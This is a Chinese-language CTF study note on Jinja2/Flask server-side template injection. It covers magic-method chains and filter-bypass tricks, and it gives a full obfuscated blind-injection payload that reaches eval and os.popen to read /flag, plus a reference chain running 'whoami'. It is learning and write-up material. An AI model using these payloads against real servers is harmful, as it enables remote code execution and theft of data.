



# Python 中的 SSTI

## 1. Jinja2

### 1.1 Flask 基础

1. 一些常见的入门网站：

    > https://read.helloflask.com/hello/

2. 常见的 Flask 项目开头代码：

    ```python
    import flask
    app = flask.Flask(__name__)
    @app.route('/')
    def hello():
        return 'Welcome to My Watchlist!'
    ```

3. app，就是：

    > 所有的 Flask 都必须创建程序实例，web 服务器使用 wsgi 协议，把客户端所有的请求都转发给这个程序实例。程序实例是 Flask 的对象，一般情况下用 `app = flask.Flask(__name__)` 实例化。
    > Flask 类只有一个必须指定的参数，即程序主模块或者包的名字，`__name__` 是系统变量，该变量指的是本 py 文件的文件名。
    
4. 然后就是具体路由，路由的方式有很多，可以详见官方文档：

    > https://flask.github.net.cn/quickstart.html#id7

### 1.2 Jinja2 的内容

1. 关键的渲染方法就是 `flask.render_template_string(str)` 和 `flask.render_template(fileName)`。

2. 目前 Jinja2 相关教程中，个人认为写的比较好的就是：

    > https://blog.csdn.net/qq_38154820/article/details/111399386

3. 着重提及一下，**常见的魔术方法要留意**，因为 SSTI 中用的比较多。

4. 大部分给的教程都是通过魔术方法从 `Object` 开始，一层一层找到**命令执行相关**的函数，然后注册函数并执行。

5. 对于某些 CTF 题，可能 Flag 是在当前系统或者环境变量里面，例如 ：
    ```python
    app = flask.Flask(__name__)
    app.config['FLAG'] = os.environ.pop('FLAG')
    ```

    这个时候，就要考虑读取系统的变量。
    常用的魔术方法就是 `__globals__` 来获取函数所在模块命名空间中的**所有变量**。Flask 中的能显示全局变量的有：`url_for()` 和 `get_flashed_messages` 等。（TODO 不懂是怎么发现的）。
    参考链接：

    > https://blog.csdn.net/qq_45290991/article/details/120117615

6. Python 中可以使用 `魔术方法名['魔术方法名']` 来代替 `魔术方法名.魔术方法名`。即可以使用：`__init__['globals']` 代替 `__init__.__globals__`。这样某些关键字可以通过字符串拼接来过滤。

### 1.3 一道过滤了很多内容的 SSTI 盲注 - \[2024源鲁杯\]\[Round 1\] Injct

1. 前期测试和 fuzz 了一下，过滤了以下东西：
    ```python
    # " 空格 set print request \u \x [] {{}} _ +
    # 以及大部分的关键字和常见的过滤器
    ```

2. 当时在做的时候，确实没啥思路，能想到的基本都过滤了，fenjing 跑了也没结果。不过当时问了群内的大佬，说是没过滤 `if`  的话其实就要考虑 `if` 的 boolean 注入了。

3. 这题的关键点有两个：

    1. 用 `~` 代替 `+`，详见 Jinja2 官方网站：

        > https://jinja.palletsprojects.com/en/stable/templates/#other-operators
        > 

    2. 过滤器 `lipsum|string|list` 结合 `pop` 来获取 `_`，前面的过滤器会返回 `<function generate_lorem_lipsum...` 的数组，通过 `pop(18)` 来获取到 `_`。

4. 这题自己在构造的时候，也是磕磕绊绊，小问题一堆啊。接下来再补充内容：

    1. 由于都是使用的 filter，这就导致 `.方法` 不管用：
        
        
        所以盲注的话，以后不考虑用 `.` 了，可能 filter 后面不支持接 `.`。
    2. 如果获取的对象是 dict 字典，可以用 `.__getitem__(具体 key)`。如果是 list，那就在大致构造完成后，爆破下标 index 吧（因为肯定没有内容回显，所以只能爆破）。

5. 给出这题的关键 PoC：
    `{%if((''|attr((lipsum|string|list).pop(18)*2~'cl'~'ass'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'ba'~'ses'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'getitem'~(lipsum|string|list).pop(18)*2)(0)|attr((lipsum|string|list).pop(18)*2~'subc'~'lasses'~(lipsum|string|list).pop(18)*2)()|attr((lipsum|string|list).pop(18)*2~'geti'~'tem'~(lipsum|string|list).pop(18)*2)(101)|attr((lipsum|string|list).pop(18)*2~'ini'~'t'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'glob'~'als'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'get'~'item'~(lipsum|string|list).pop(18)*2)((lipsum|string|list).pop(18)*2~'buil'~'tins'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'get'~'item'~(lipsum|string|list).pop(18)*2)('ev'~'al')((lipsum|string|list).pop(18)*2~'imp'~'ort'~(lipsum|string|list).pop(18)*2)('o'~'s')|attr('pop'~'en')('head$IFS$9-c$IFS$91$IFS$9/flag').('read')())=='Y')%}EndlessShw`
    参考以下 PoC：
    `''.__class__.__bases__[0].__subclasses__()[101].__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__')('os').popen("whoami").read()`

### 1.4 Flask 下 SSTI 的不出网回显方式

1. 对于没有过滤 `{{}}` 但是没有回显的 SSTI，就可以考虑以下两种方法：

    1. debug 模式的报错
    2. 非 debug 模式下利用内存马

2. 参考文章如下：

    > https://www.cnblogs.com/gxngxngxn/p/18181936

    文章写的很好，牛逼的。
    底层原理并不是额外的添加路由，而是去修改路由前的钩子，个人感觉有点类似打 SpringMVC 的 Interceptor 内存马，或者类似 Servlet 的 Filter。

3. 例题：[2024蜀道山]my_site，无回显的代码如下：
    ```python
    # ...
    @app.route('/rot13', methods=['GET', 'POST'])
    def rot13_route():
        if request.method == 'POST':
            action = request.form['action']
            text = request.form['text']
            
            if action == 'encrypt':
                encrypted_text = rot13(text)
                return redirect(url_for('rot13_result', result=encrypted_text, action='encrypt'))
        
            
            elif action == 'decrypt':
                text = request.form['text']
                decrypted_text = rot13(text)
                # 有 () 时进入
                if key(decrypted_text):
                    # 漏洞口
                    template = '<h1>Your decrypted text is: {{%s}}</h1>' % decrypted_text
                    try:
                        # 这里没有 return，因此没有回显
                        render_template_string(template)
                    except Exception as e:
                        abort(404)
                    # return "既然你是黑阔，那我凭什么给你回显"
                    return redirect(url_for('rot13_result', result="既然你是黑阔，那我凭什么给你回显", action='decrypt'))
    
                else:
                    return redirect(url_for('rot13_result', result=decrypted_text, action='decrypt'))
                    template = '<h1>Your decrypted text is: %s</h1>' % decrypted_text
                    return render_template_string(template)
        
        return render_template('index.html')
    
    @app.route('/rot13_result/<action>/<result>')
    def rot13_result(action, result):
        return render_template('rot13_result.html', action=action, result=result)
    # ...
    ```

    
